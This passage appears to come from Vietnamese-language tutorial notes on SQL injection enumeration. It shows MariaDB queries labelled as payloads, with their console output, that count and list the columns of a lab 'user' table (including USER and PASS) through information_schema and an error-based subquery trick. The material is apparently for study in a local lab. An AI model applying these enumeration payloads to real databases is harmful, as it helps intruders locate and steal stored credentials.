     ```mysql
    SELECT COUNT(*) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema = 'xssuser' AND table_name = 'user'
    ```

    ```mysql
    MariaDB [xssuser]> SELECT COUNT(*) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema = 'xssuser' AND table_name = 'user';
    +----------+
    | COUNT(*) |
    +----------+
    |        5 |
    +----------+
    1 row in set (0.01 sec)
    ```

  - Với *user* là *table* và *xssuser* là *database* đã có bằng *information_schema*

- Ta còn có thể truy xuất số lượng *column* bằng

  - Payload: 

    ```mysql
    SELECT * FROM user WHERE ID = 1 and(SELECT * from user)=(1)
    ```

    ```mysql
    MariaDB [xssuser]> SELECT * FROM user WHERE ID = 1 and(SELECT * from user)=(1);
    ERROR 1241 (21000): Operand should contain 5 column(s)
    ```

    

- Truy xuất *column name* ta dùng

  - Payload: 

    ```mysql
    SELECT `COLUMN_NAME`  FROM `INFORMATION_SCHEMA`.`COLUMNS`  WHERE `TABLE_SCHEMA`='xssuser' AND `TABLE_NAME`='user'
    ```

    ```mysql
    MariaDB [xssuser]> SELECT `COLUMN_NAME`  FROM `INFORMATION_SCHEMA`.`COLUMNS`  WHERE `TABLE_SCHEMA`='xssuser' AND `TABLE_NAME`='user';
    +-------------+
    | COLUMN_NAME |
    +-------------+
    | ID          |
    | USER        |
    | PASS        |
    | USERID      |
    | LEVEL       |
    +-------------+
    5 rows in set (0.00 sec)
    ```
